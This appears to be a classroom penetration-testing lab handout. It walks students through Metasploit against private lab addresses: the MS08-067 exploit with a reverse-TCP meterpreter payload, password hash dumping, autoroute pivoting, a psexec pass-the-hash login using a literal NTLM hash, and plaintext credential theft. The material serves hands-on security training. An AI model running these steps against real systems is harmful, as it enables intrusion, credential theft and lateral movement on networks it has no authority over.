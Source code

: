 ## Warm Up

This activity will be a review of the topics and techniques that we learned in the last class such as scanning and exploiting vulnerabilities, maintaining access, and using pivot points to attack other machines on the network.  If you need additional help feel free to use the CybrScore hints, but ideally you should use your notes and reach out to your neighbor. Good luck! 

---

In the next steps, you will use Metasploit CLI and its counterpart, Meterpreter, to exploit the vulnerabilities you identified earlier in the lab. You will exploit each host in the initial subnet following a defined set of steps and use the information obtained from each exploit attempt to help pivot into a new subnet and exploit other hosts.

- Open a terminal prompt by clicking the Terminal icon in the side bar.

- Starts the built-in postgresql server, if it's not already running. If you get an error with this command, ignore it an run the next command.
  - `service postgresql start`

- Initializes the Metasploit database
  - `msfdb init`

- Type `msfconsole` and press ENTER.
  - Once Metasploit has succesfully loaded, you will be presented with the msf prompt: `msf >`

- At the metasploit prompt, type `db_nmap -sV -F -O 10.10.10.0/24` and press ENTER. 
  - The scan should finish relatively quickly, and the raw results of the scan should be returned.

- At the metasploit prompt, type `use exploit/windows/smb/ms08_067_netapi` and press ENTER.

- Type `set payload windows/meterpreter/reverse_tcp` and press ENTER.

- Type `set RHOST 10.10.10.20` and press ENTER to change the remote host option to the victim's IP address.

- Type `set LHOST 10.10.10.10` and press ENTER to change the local host option for the meterpreter payload to your Kali VM's IP address.

- Type `set LPORT 4444` and press ENTER to change the listening port for the meterpreter payload to port 4444.

- Type `run -j` and press ENTER to run the exploit
  - Once the exploit has finished running, you should see a message that says "Meterpreter session 1 opened". At the prompt, type sessions and press ENTER to see your currently active command/meterpreter shell sessions, and you should see a meterpreter session, running as the SYSTEM user, on 10.10.10.20.
  
- Type `background` to background the session. 

- Type `use post/windows/gather/hashdump` and press ENTER

- Type `set SESSION 1` and press ENTER

- Type `run -j` and press ENTER to run the module. The module till run, and dump the password hashes that it finds.

- At the msf prompt, type `creds` and press ENTER to see your recently dumped password hashes now stored in the Metasploit database, which we will use later in this lab.

- At the msf prompt, type `use post/multi/manage/autoroute` and press ENTER

- Type `set CMD add` and press ENTER to change the command to add only the routes you specify.

- Type `set SUBNET 172.16.0.0` and press ENTER.

- Type `set SESSION 1` and press ENTER.
  - Ensure that the NETMASK variable is set to 255.255.255.0

- Type `run` and press ENTER. You will receive output about the successful route being added. You can confirm that the route has been added, or view existing routes, by typing `route` and pressing ENTER at the msf prompt at any time.

- At the msf prompt, use the `auxiliary/scanner/portscan/tcp`. 
  - Type `use auxiliary/scanner/portscan/tcp`
  
- Use show options to view the options available to you in this module.

- Set the ports `139`,`445`, and `3389`. 
  - Type `set PORTS 139,445,3389`. 

- Set the rhosts to `172.16.0.0/24` 
  - Type `set RHOSTS 172.16.0.0/24`

- Set the threads to 50 and run it. The scan could take up to 10 minutes to complete. 
  - Type `set THREADS 50` then `run`. 

---

Now that you have identified the live hosts, we can use another Metasploit module to scan for SMB version to identify the exact version of Windows that each host is running.

- Use the `auxiliary/scanner/smb/smb_version` module and set the following:

- Using the hosts that you found in step 30, set the remote host targets with the RHOSTS parameter. Specify as many hosts as were found during step 30, then run the module.

- **Hint:** We have used the set RHOSTS 172.16.0.XXX,YYY notation, where XXX and YYY are the last octet of the hosts that you find, up to the total number of hosts found. You can also separate your RHOSTS parameter by specifying each host's full IP address, with each host separated with a space, rather than a comma: set RHOSTS 172.16.0.XXX 172.16.0.YYY and so on.
At the msf prompt, type hosts and services to confirm that the results of your new scan have populated the database for easy reference later.

  - Type: `set RHOSTS 172.16.0.150,175,200,250` 

- At the msf prompt, type `use exploit/windows/smb/psexec`

- Type `set RHOST 172.16.0.150` and press ENTER.

- Type `creds` and copy the administrator password. 

- Type `set SMBPass aad3b435b51404eeaad3b435b51404ee:4d0e3ba8f118cc5143d62505e9d51a6c` and paste the hash that you copied in the last step. 

- Type `set SMBUser administrator`

- Type `set payload windows/x64/meterpreter/bind_tcp` and press ENTER

- Type `set LPORT 4444` and press ENTER

- Type `run` within a few seconds, you should get a message with "Meterpreter session 2 opened".
  - If you do not, **try running the exploit again**.

- With a SYSTEM meterpreter shell on the new machine in the network, you can now attempt to dump hashes and hopefully any domain credentials in memory. 

- Type `background`

- Type `use post/windows/gather/hashdump` and press ENTER

- Type `set SESSION 2` and press ENTER.

- Type `run -j` and press ENTER to dump the local hashes found.

- Next, type `use post/windows/gather/credentials/sso` and press ENTER.

- Type `set SESSION 2` and press ENTER.

- Type `run` and press ENTER to run the module, and dump the credentials, in plaintext for any domain users that have logged in.

- Run `creds` at the msf prompt once more to see your newly acquired cleartext domain credentials.
